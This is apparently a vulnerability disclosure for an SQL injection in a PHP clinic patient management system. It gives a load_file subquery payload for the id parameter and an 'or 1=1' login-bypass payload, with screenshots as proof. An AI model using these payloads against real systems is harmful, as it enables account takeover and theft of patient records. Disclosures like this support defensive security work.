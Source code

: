 #### Title: Clinic's Patient Management System 2.0 SQLi
#### Author: Ashish Kumar (https://www.linkedin.com/in/ashish-kumar-0b65a3184)
#### Date: 04.07.2022
#### Vendor: https://www.sourcecodester.com/users/tips23
#### Software: https://www.sourcecodester.com/php-clinics-patient-management-system-source-code
#### Version: 2.0
#### Reference: https://github.com/CyberThoth/CVE/blob/main/CVE/Clinic's%20Patient%20Management%20System/SQLi/POC.md

#### Description:
### The id parameter appears to be vulnerable to SQL injection attacks. The payload '+(select load_file('http://localhost/pms/index.php'))+' was submitted in the id parameter. This payload injects a SQL sub-query that calls MySQL's load_file function with a UNC file path that references a URL on an external domain. The application interacted with that domain, indicating that the injected SQL query was executed. The attacker can take administrator account control and also of all accounts on this system, also the malicious user can download all information about this system.

# Status: CRITICAL

### [+] Payloads:

``` 
Username: = admin' or '1'='1
Password: = Cyberthoth;)

```


## Proof and Exploit:
![image](https://github.com/CyberThoth/CVE/blob/5198ef2d56f9c818654bbe131c7f7e3055923f23/CVE/Clinic's%20Patient%20Management%20System/SQLi/1.png)

![image](https://github.com/CyberThoth/CVE/blob/5198ef2d56f9c818654bbe131c7f7e3055923f23/CVE/Clinic's%20Patient%20Management%20System/SQLi/2.png)

![image](https://github.com/CyberThoth/CVE/blob/5198ef2d56f9c818654bbe131c7f7e3055923f23/CVE/Clinic's%20Patient%20Management%20System/SQLi/3.png)

